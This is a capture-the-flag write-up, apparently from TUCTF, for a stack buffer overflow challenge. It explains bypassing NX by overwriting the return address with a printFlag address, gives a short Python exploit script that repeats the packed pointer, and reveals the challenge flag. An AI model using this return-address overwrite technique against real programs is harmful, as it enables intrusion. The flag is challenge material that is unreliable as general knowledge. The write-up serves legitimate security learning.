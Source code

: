 > Get warmed up, we'll be here for a while.

Solved by Vanilla

This binary also has a stack-based buffer overflow, but it has NX enabled.  However, PIE is turned off, so we have static addresses to parts of the binary.  Fortunately, nm tells us that it has a printFlag function at 0x80491F6, so we can overwrite the return address to go straight there.  I wasn’t feeling like trying to figure out the exact number of things we need to overwrite so I just flooded the input with that pointer over and over:

#!/usr/bin/env python3
import struct
import vanillib


def exploit(iface):
    iface.expect(b"Let's see what you can do\n> ")
    iface.write(struct.pack('<Q', 0x080491f6) * 10 + b"\n")
    print(iface.read_some())


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Flag: TUCTF{0n3_d0wn..._50_m4ny_70_60}


